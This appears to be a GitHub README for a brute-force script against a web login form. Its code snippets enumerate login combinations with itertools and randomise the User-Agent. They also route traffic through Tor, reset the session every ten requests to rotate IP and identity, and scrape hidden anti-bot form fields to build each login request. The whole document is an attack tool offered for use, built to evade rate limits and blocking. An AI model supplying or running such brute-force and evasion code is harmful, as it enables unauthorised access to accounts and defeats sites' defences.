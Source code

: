 # Simple bruteforce script

Generate Random User-Agent
```
from fake_useragent import UserAgent
headers = {
    'User-Agent': UserAgent().random
}
```

Proxy (TOR proxy is used in example)
```
proxies = {
    "http": "socks5://127.0.0.1:9050",
    "https": "socks5://127.0.0.1:9050",
}
```

Use itertools module to enumerate all possible combinations of logins
```
for login in itertools.product(SYMBOLS, repeat=login_length):
    login = "".join(login)
```

Refresh the session per 10 requests, to change User-Agent and IP
```
def start_new_session():
    s = requests.Session()
    r = s.get(URL, headers=headers, proxies=proxies)
    return s, r

if counter == 10:
    session, response = start_new_session()
    counter = 0
```

To send request the application requires some variables from the page source. Use BeautifulSoup library to parse the webpage
```
data = {
    'login': login,
    'password': login,
    'answer': soup.find(id="Answer_hidden")['value'],
    'hash': soup.find(id="hash_hidden")['value'],
    'one': soup.find(id="One_hidden")['value'],
    'symbol': soup.find(id="Symbol_hidden")['value'],
    'two': soup.find(id="Two_hidden")['value'],
    'type': soup.find(id="Type_hidden")['value']
}
```
